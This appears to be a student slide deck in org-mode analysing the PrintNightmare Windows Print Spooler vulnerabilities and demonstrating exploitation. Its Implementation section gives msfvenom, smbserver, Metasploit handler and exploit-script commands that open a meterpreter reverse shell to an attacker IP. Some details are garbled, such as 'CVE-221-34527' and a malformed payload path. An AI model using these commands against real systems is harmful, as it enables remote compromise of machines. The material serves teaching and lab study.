 :REVEAL_PROPERTIES:
#+REVEAL_ROOT: https://cdn.jsdelivr.net/npm/reveal.js
#+REVEAL_REVEAL_JS_VERSION: 4
#+REVEAL_THEME:serif
#+REVEAL_INIT_OPTIONS: transition: 'concave', width:1200, height:800
#+REVEAL_TITLE_SLIDE: <h2 class="title">%t</h2><em>%s</em><br><br>%a<br>%d
#+reveal_extra_css: css/extra.css
#+OPTIONS: timestamp:nil toc:1 num:nil
:END:

#+title: PrintNightmare
#+author: Sudhanv Apte, 陳峰楷, 李光耀, Abdillahi Ahmed

* Introduction
- Windows has a service called Print Spooler
- Manages all local and network printing

** CVEs
- *CVE-2021-1675*, low class vulnerability, allowed privilege escalation
- Required direct access to the system thus labeled low risk
- Fixed by MS as of Jun 8, 2021
- *CVE-221-34527*, high risk, allowed remote code execution
- Rated 8.8 on the Common Vulnerabiltity Scoring System Scale
* Vulnerabiltity Analysis
- Two vulns are triggered by the PrintSpoolerService RPC method
  #+ATTR_HTML: :width 70%
  [[./assets/nspt/cve1.png]]

  #+ATTR_HTML: :width 70%
  [[./assets/nspt/cve2.png]]

- *mimikatz* was first to implement the exploit with both CVEs

** The Vulnerability
- Use Process monitor to capture EXP when DLL is loaded
  #+ATTR_HTML: :width 70%
  [[./assets/nspt/pm.png]]
- dwFileCopyFlags check is skipped when calling YAddPrinterDriverEx method
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/yadd.png]]
    [[./assets/nspt/apd.png]]
** ValidateObjectAccess
- mimikatz will pass RpcBindingSetAuthInfoEx method with some params
- After execution, user sets username which is regarded as permission
- ValidateObjectAccess result is 0 for user and 1 for admin
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/rpcbind.png]]
- To bypass the ValidateObjectAccess, if the "APD INSTALL WARNED DRIVER" is set to 1
- The result of _bittest method is 1, as a result ValidateObjectAccess is bypassed
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/bittest.png]]
** ValidateDriverInfo
- This part checks if the driver name is valid
- Execution flow is as follows:
  - Check if it is a local file
  - Check init key
  - Verify legitimacy of the driver file
    [[./assets/nspt/vdi.png]]
- When dwFileCopyFlags contains APD INSTALL WARNED DRIVER, the result is 0x8000 and value is 0
- This skips further verification by driver

    #+ATTR_HTML: :width 50%
  [[./assets/nspt/dwfile.png]]
** Get file handle
- Value of v13 is obtained by inverting lower 8 bits of dwFileCopyFlags
- Shifting it 4 bits to right and performing AND with 1
- v13 determines 5th param of the CreateInternalDriverFileArray
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/spl.png]]
- After calculation, when value of lower 8 bits of dwFileCopyFlags is 0x1X, a5 can be set to 0
#+REVEAL: split
- When a5 is 0, validity check of the driver can be avoided
    #+ATTR_HTML: :width 50%
  [[./assets/nspt/a5.png]]
- Open file via CreateFile method, get 3 file handles
- Save them in space requested by DllAllocSplMem method for later file update use
  [[./assets/nspt/dll.png]]

** Copy files to driver space
- pConfigFile, pDataFile and pDriverPath save their respective file paths
- When moving files of the above members, the following operations are required:
  - Check file info of the file handle
  - Copy file to *"C:\Windows\System32\spool\drivers\x64\3\new"*
  - Using MoveNewDriverRelatedFiles, move files and realize the update file
    #+ATTR_HTML: :width 60%
    [[./assets/nspt/copy.png]]
** Update Driver Files
- Load the new config file
- When loaded it will run the driver's DLL
- Our DLL will be executed with highest privilege
  [[./assets/nspt/update.png]]

* Implementation
- Environment:
  - Windows 10 1607
  - Kali 2022.3
  - Python 3.10.5

- Git repos used:
  - https://github.com/tryhackme/CVE-2021-1675
  - https://github.com/tryhackme/impacket
  - https://github.com/JohnHammond/CVE-2021-34527

- python requires impacket which can be installed through github

** Setup
- Setup exploit DLL
  #+begin_src
msfvenom -p /reverse_tcp_path LHOST=[YOUR_IP] LPORT=4545 -f dll -o spoolerevil.dll
  #+end_src
- Execute DLL
  #+begin_src
smbserver.py share [YOUR_EXPLOIT_DLL_LOCATION] -smb2support

msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST [YOUR_IP]
set LPORT 4545
run -j
  #+end_src
- DLL Injection
    #+begin_src
python CVE-2021-1675.py username:password@<targetName or address> Path to DLL

session -i 1
    #+end_src

* Demo
* Conclusion
- Spooler vuln was first used in Stuxnet attack 10 years ago
- MSs incomplete patch of the CVEs made windows users vulnerable to attacks
- MS has taken step to ameliorate the situation but 34527 is still unsolved
